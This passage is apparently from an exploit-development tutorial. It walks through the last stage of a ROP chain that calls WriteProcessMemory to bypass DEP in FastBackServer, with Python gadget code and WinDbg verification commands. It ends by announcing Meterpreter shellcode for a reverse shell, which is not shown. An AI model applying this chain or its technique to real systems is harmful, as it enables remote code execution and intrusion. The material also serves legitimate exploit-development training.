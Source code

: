 
Excellent! Listing 54 shows that the ROP chain patched the nSize argument correctly.

At this point, we have correctly set up the address for WriteProcessMemory, the return address, and all arguments on the stack.

The last step in our ROP chain is to align EAX with the WriteProcessMemory address in the ROP skeleton on the stack, exchange it with ESP, and return into it.

We'll do this the same way we aligned EAX earlier. From Listing 54, we know that EAX points 0x14 bytes ahead of WriteProcessMemory on the stack. We can fix that easily with previously used gadgets. The updated ROP chain is shown below.

# Align ESP with ROP Skeleton
rop += pack("<L", (dllBase + 0x117c))   # pop ecx ; ret
rop += pack("<L", (0xffffffec))         # -0x14
rop += pack("<L", (dllBase + 0x1d0f0))  # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x5b415))  # xchg eax, esp ; ret
In the above ROP chain, we popped the value -0x14 (0xffffffec) into ECX, added it to EAX, and then used a gadget with an XCHG instruction to align ESP to the stack address stored in EAX.

After executing this part of the ROP chain, we should return into WriteProcessMemory with all the arguments set up correctly. We can observe this in practice by restarting FastBackServer, attaching WinDbg, and setting a breakpoint on the "XCHG EAX, ESP" gadget.
	bp libeay32IBM019+0x5b415
	g
	p
	p
	dds esp L6
	


shows that WriteProcessMemory was invoked and all arguments were set up correctly. We'll note that lpBuffer is stored at 0x110ee41c.

To verify that WriteProcessMemory copies our dummy shellcode, we can dump the contents of the code cave before and after the API executes.
	u 031f2c04
	pt
	u 031f2c04
	


The contents of the code cave before and after WriteProcessMemory execution show that our fake shellcode data of 0x44 bytes was copied from the stack into the code cave.

Let's return from WriteProcessMemory and prove that DEP was bypassed by executing the "INC ESP" instructions (0x44 opcode) from the code cave:
	r
	p
	p
	p


GETTING OUR SHELL

To complete our exploit, let's replace our padding data with a Meterpreter shellcode to get a reverse shell.
